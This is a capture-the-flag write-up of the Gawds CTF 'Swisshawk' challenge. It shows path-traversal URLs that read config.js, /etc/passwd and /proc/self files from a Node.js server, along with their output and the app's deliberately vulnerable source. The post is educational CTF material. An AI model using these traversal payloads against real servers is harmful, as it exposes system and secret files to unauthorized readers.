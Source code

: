 ```yaml
---
layout: post
title: Gawds CTF/ Swisshawk 
desc: This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, it made me learn a new vector in post-exploitation of web apps.
---
```


## Description

This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, 
it made me learn a new vector in post-exploitation of web apps.

Your friend Tamanna is in danger, swisshawk defaced her website and hidden some flags in there.

Tamanna can only restore the website if she knows the flags, please help tamanna get her website back!

[http://swisshawk.ctf.gawds.in](http://swisshawk.ctf.gawds.in)

* * * 

## The Challenge

The challenge in a sense was quite straight forward. Opening the page greets you with a steady message.

![Challenge](/public/assets/images/startup-swisshack.png) 

As always the entry point being the source, I decided to give it a look.

<pre><p>You will never be able to find the flags, I have very carefully
        hidden it somewhere here &lt;!-- page: /app path: /config.js --&gt;</p></pre>

Looking at the comment it was evident that it was a node.js application.

From the hint, the page was currently in the `app` directory. We have to go to the root directory to access the `config.js` file.

Navigating to the following page:
<pre>http://swisshawk.ctf.gawds.in/../config.js</pre>

<pre><p>module.exports = {
    PORT: process.env.PORT || 3000,
    flag1: 'flag{F1R5T_FL4G_W45NT_THAT_H4RD}',
    flag2: 'you_cant_find_me(I am the server)'
}
<!-- page: /config.js path: /config.js --></p></pre>

<strong>Flag1: flag{F1R5T_FL4G_W45NT_THAT_H4RD} </strong>

## Phase II

Now challenge was finding the second flag. The hint too was very cryptic.
<blockquote>you_cant_find_me(I am the server)</blockquote>


The hint meant flag was present inside the server's directory.

I tried directory traversal. It being a node.js app, I tried various combinations of the entry points like `app.js` `index.js`.

<pre>http://swisshawk.ctf.gawds.in/../index.js
http://swisshawk.ctf.gawds.in/../app.js
http://swisshawk.ctf.gawds.in/app.js
http://swisshawk.ctf.gawds.in/index.js
</pre>

I then tried loading the `/etc/passwd` file.
<pre>http://swisshawk.ctf.gawds.in/../../../../../../../../../../../etc/passwd</pre>

First breakthrough!

<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
u57400:x:57400:57400:,,,:/app:/bin/bash
dyno:x:57400:57400:,,,:/app:/bin/bash
&lt;!-- page: /etc/passwd path: /config.js --&gt;
</pre>

But it still was a dissapointment, I wasn't able to access any of the server files. I went to as far as looking in the `/var/www/` directory.

I came across an article which discussed about post exploitation techniques after a LFI vulnerability. 

One interesting place to look for was the `/proc/` directory. This directory not only contained each process related files as well as file descriptors.

Each process has a directory named by its <strong>process id (pid).</strong>

The shortcut being, it isn't necessary to know the process id to access the directory. The current process directory can be accessed by navigating to the `/proc/self/` directory.

This directory contains four juicy files:

* environ
* cmdline
* maps
* mountinfo

Trying each file: `http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/environ/`
<pre>
SHLVL=1 HOME=/app
PORT=41335PS1=\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]
VERSION=v6.12.3
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NPM_VERSION=3PWD=/appDYNO=web.1NODE_CHANNEL_FD=3
&lt;!-- page: /proc/self/environ path: /config.js --&gt;</pre>

Nothing great.

`http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/cmdline/`
<pre>
/usr/bin/nodeyou_cant_find_me.js
&lt;!-- page: /proc/self/cmdline path: /config.js -->
</pre>

We found the entry point of the node.js application. 

<pre>
const express = require("express");
const config = require("../config");
const flag2 = require("../flag2isHere");
const resolve = require("path").resolve;
const fs = require("fs");

const app = express();

app.use((req, res) => {
    const path = req.originalUrl.substring(1).replace('%2f', '/').replace('%2F', '/');

    let text = `You will never be able to find the flags, I have very carefully
        hidden it somewhere here`;
    if(path) {
        try {
            text = fs.readFileSync(path);
        }
        catch(err) {
            text = err;
        }
    }

    text += "&lt;!-- page: " + resolve(path) + " path: /config.js -->";
    return res.end("&lt;p>" + text + "&lt;/p>");
});

app.listen(config.PORT, () => {
    console.log("Wohooo, all set up, listening on ", config.PORT);
})&lt;!-- page: /app/you_cant_find_me.js path: /config.js -->
</pre>

We find that `../flag2isHere` is the js file containing the flag.

Going to `http://swisshawk.ctf.gawds.in/../flag2isHere.js`

<pre>
<p>module.exports = {
    flag: "ZmxhZ3tUSElTX20xR2hUX0g0dkVfQjMzbl9MMVR0TGVfdFIxY2tZfQ=="
}&lt;!-- page: /flag2isHere.js path: /config.js --></p>
</pre>

We get the base-64 encoded string. Decoding it we get the following flag.

<strong>Flag2: flag{THIS_m1GhT_H4vE_B33n_L1TtLe_tR1ckY}</strong>
